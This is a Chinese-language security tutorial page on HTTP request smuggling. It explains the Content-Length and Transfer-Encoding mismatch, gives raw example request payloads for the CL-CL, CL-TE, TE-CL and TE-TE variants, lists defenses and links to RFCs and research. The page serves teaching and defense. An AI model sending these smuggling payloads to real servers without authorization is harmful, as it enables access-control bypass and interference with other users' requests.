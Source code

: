 HTTP 请求走私
========================================

简介
----------------------------------------
HTTP请求走私是一种干扰网站处理HTTP请求序列方式的技术，最早在 2005 年的一篇 `文章 <https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf>`_ 中被提出。

成因
----------------------------------------
请求走私大多发生于前端服务器和后端服务器对客户端传入的数据理解不一致的情况。这是因为HTTP规范提供了两种不同的方法来指定请求的结束位置，即 ``Content-Length`` 和 ``Transfer-Encoding`` 标头。

分类
----------------------------------------
- CLTE：前端服务器使用 ``Content-Length`` 头，后端服务器使用 ``Transfer-Encoding`` 头
- TECL：前端服务器使用 ``Transfer-Encoding`` 标头，后端服务器使用 ``Content-Length`` 标头。
- TETE：前端和后端服务器都支持 ``Transfer-Encoding`` 标头，但是可以通过以某种方式来诱导其中一个服务器不处理它。

攻击
----------------------------------------

CL不为0的GET请求
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
当前端服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的 ``Content-Length`` 头，不进行处理。例如下面这个例子：

::

    GET / HTTP/1.1\r\n
    Host: example.com\r\n
    Content-Length: 44\r\n

    GET /secret HTTP/1.1\r\n
    Host: example.com\r\n
    \r\n

前端服务器处理了 ``Content-Length`` ，而后端服务器没有处理 ``Content-Length`` ，基于pipeline机制认为这是两个独立的请求，就造成了漏洞的发生。

CL-CL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
根据RFC 7230，当服务器收到的请求中包含两个 ``Content-Length`` ，而且两者的值不同时，需要返回400错误，但是有的服务器并没有严格实现这个规范。这种情况下，当前后端各取不同的 ``Content-Length`` 值时，就会出现漏洞。例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    Content-Length: 8\r\n
    Content-Length: 7\r\n

    12345\r\n
    a

这个例子中a就会被带入下一个请求，变为 ``aGET / HTTP/1.1\r\n`` 。

CL-TE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CL-TE指前端服务器处理 ``Content-Length`` 这一请求头，而后端服务器遵守RFC2616的规定，忽略掉 ``Content-Length`` ，处理 ``Transfer-Encoding`` 。例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    ...
    Connection: keep-alive\r\n
    Content-Length: 6\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    0\r\n
    \r\n
    a

这个例子中a同样会被带入下一个请求，变为 ``aGET / HTTP/1.1\r\n`` 。

TE-CL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TE-CL指前端服务器处理 ``Transfer-Encoding`` 请求头，而后端服务器处理 ``Content-Length`` 请求头。例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    ...
    Content-Length: 4\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    12\r\n
    aPOST / HTTP/1.1\r\n
    \r\n
    0\r\n
    \r\n

TE-TE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TE-TE指前后端服务器都处理 ``Transfer-Encoding`` 请求头，但是在容错性上表现不同，例如有的服务器可能会处理 ``Transfer-encoding`` ，测试例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    ...
    Content-length: 4\r\n
    Transfer-Encoding: chunked\r\n
    Transfer-encoding: cow\r\n
    \r\n
    5c\r\n
    aPOST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 15\r\n
    \r\n
    x=1\r\n
    0\r\n
    \r\n

防御
----------------------------------------
- 禁用后端连接重用
- 确保连接中的所有服务器具有相同的配置
- 拒绝有二义性的请求

参考链接
----------------------------------------

RFC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `RFC 2616 Hypertext Transfer Protocol -- HTTP/1.1 <https://tools.ietf.org/html/rfc2616>`_
- `RFC 7230 Hypertext Transfer Protocol (HTTP/1.1): Message Syntax and Routing -- HTTP/1.1 <https://tools.ietf.org/html/rfc7230>`_

Blog / Whitepaper
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `HTTP Request Smuggling by chaiml <https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf>`_
- `HTTP request smuggling by portswigger <https://portswigger.net/web-security/request-smuggling>`_
- `从一道题到协议层攻击之HTTP请求走私  <https://xz.aliyun.com/t/6654>`_
- `HTTP Request Smuggling in 2020 <http://i.blackhat.com/USA-20/Wednesday/us-20-Klein-HTTP-Request-Smuggling-In-2020-New-Variants-New-Defenses-And-New-Challenges.pdf>`_
